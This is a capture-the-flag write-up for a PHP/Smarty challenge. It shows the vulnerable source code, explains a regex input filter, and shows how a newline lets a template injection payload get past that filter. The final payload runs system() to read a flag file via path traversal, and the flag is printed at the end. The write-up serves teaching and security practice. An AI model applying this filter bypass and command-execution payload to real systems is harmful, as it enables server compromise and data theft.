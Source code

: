 ```php
if(!isset($_POST['data'])){
    $smarty->assign('pattern', $pattern);
    $smarty->display('index.tpl');
    exit();
}

// returns true if data is malicious
function check_data($data){
    global $pattern;
    return preg_match($pattern,$data);
}

if(check_data($_POST['data'])){
    $smarty->assign('pattern', $pattern);
    $smarty->assign('error', 'Malicious Inputs Detected');
    $smarty->display('index.tpl');
    exit();
}

$tmpfname = tempnam("/tmp/smarty/templates", "FOO");
$handle = fopen($tmpfname, "w");
fwrite($handle, $_POST['data']);
fclose($handle);
$just_file = end(explode('/',$tmpfname));
$smarty->display($just_file);
unlink($tmpfname);
```

> - System writes the data to a temporary file, displays the template with the temporary file as the main content, and then deletes the temporary file. (This can exploit)
> - But first you need to bypass the regex to exploit it.

**Solution:**
After searching google i saw that smarty template can SSTI. But the first thing is bypass the regular expresstion.
Explain the regex (ChatGPT😆) or you can go to this [site](https://regexr.com):
1. `/(\b)(on\S+)(\s*)=/`: This part appears to be a regular expression for matching attributes in HTML or similar contexts that start with "on" followed by non-whitespace characters, followed by an equal sign. It uses capturing groups to capture word boundaries (\b), the "on" followed by non-whitespace characters (on\S+), and optional whitespace characters (\s*) before the equal sign.
2. `|`: The pipe symbol is used as an OR operator in regular expressions, allowing you to match multiple patterns.
3. javascript: This part is a literal string match for the word "javascript."
4. `<(|\/|[^\/>][^>]+|\/[^>][^>]+)>`: This part seems to be a regular expression for matching HTML tags. It includes alternatives for an empty tag (< followed by >), opening tags (<), closing tags (<\/), and tags with content (< followed by any characters that are not > or \/ followed by any characters that are not >).
5. `({+.*}+)`: This part appears to be a regular expression for matching content enclosed in curly braces. It uses capturing groups to capture one or more opening curly braces ({+), followed by any characters (.*), and one or more closing curly braces (}+).

The first thing i do is `{system('id')}` but the last regex will check it.
![image](https://hackmd.io/_uploads/S1c9pNw4a.png)
But what if i put `\n`? And yes this can bypass the regex.
![image](https://hackmd.io/_uploads/S1EATEw4T.png)
**Final payload:**
`{system('cat ../../../flag.txt')\n}`
![image](https://hackmd.io/_uploads/rJ2YCVDVa.png)
flag: `INTIGRITI{php_4nd_1ts_many_f00tgun5}`
